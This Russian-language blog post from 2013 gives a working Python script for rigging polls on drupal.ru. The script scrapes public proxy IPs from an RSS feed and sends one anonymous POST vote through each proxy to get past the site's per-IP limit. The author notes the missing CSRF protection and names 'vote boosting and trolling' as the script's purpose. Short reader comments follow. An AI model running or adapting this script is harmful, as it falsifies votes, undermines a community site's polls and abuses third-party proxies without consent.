 ```yaml
---
layout: post
title:  "Накручивание голосований на Друпал.ру"
date:   "2013-03-04 05:46:40"
permalink: /2013/03/04/1/
tags: Питон Друпал Программирование
---
```


Простой скрипт на Питоне, накручивающий голосовалки на Друпал.ру:

~~~ python
import threading
import urllib
import re
import sys
import time
import random

try:
    _, nid, variant = sys.argv[:3]
except:
    print "Usage: python poll.py nid variant"
    exit(1)


PROXY_PATTERN = r"\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}:\d{2,5}"
POLL_URL = "http://www.drupal.ru/inner_poll/vote_js"

PROXY_URLS = (
    "http://feeds.feedburner.com/best-proxy/oKhv",
)

proxies = []
for url in PROXY_URLS:
    try:
        proxies.extend(re.findall(PROXY_PATTERN, urllib.urlopen(url).read()))
    except:
        continue

params = {
    "n": nid,    # node id
    "v": variant # variant id ("0,1,n" if multiple)
}
data = urllib.urlencode(params)

threads = []

print len(proxies), "proxies =)"
time.sleep(3)

def job(p):
    time.sleep(random.randint(0, 60))
    urllib.urlopen(POLL_URL, data=data, proxies={'http': 'http://' + p})

for p in proxies:
    t = threading.Thread(target=job, args=(p, ))
    try:
        t.start()
    except:
        pass
~~~

Запускать так:

~~~ python
python poll.py nid variant
~~~

, где nid — номер ноды, variant — номер варианта ответа (нумерация с
нуля) либо варианты через запятую.

Комментарии к коду.

1. На Друпал.ру голосование разрешено всем, даже анонимам.
2. Единственное ограничение на голосование — IP должен быть уникальным
   в пределах номера ноды.
3. Запрос осуществляется методом POST с передачей двух переменных:
   номера ноды и варианта. Про CSRF-токены не, не слышали.
4. Каждый запрос делаем через свой прокси. Список прокси берем из
   RSS-ленты сайта http://best-proxy.ru/ Лента, как вы заметили,
   пропущена через Фидбернер, т.к. создатели сайта огораживаются от
   граббинга.
5. Каждый запрос выделяем в свой тред.
6. КПД проксей где-то 10%, что тоже неплохо.

Область применения скрипта — накрутка и троллинг.


#### Комментарии из старого блога


**03/10/13 RxB:** Ну зачем... Теперь все будут знать


**03/10/13 Иван Гришаев:** Да и хрен с ним. Во-первых, на Д.ру одни
пхп-шники, во-вторых, best-proxy.ru больше не обновляется, прокси из
РСС-ленты не работают.


**03/25/13 Александр Мальков:** Но, все равно - спасибо. Интересный
  подход.
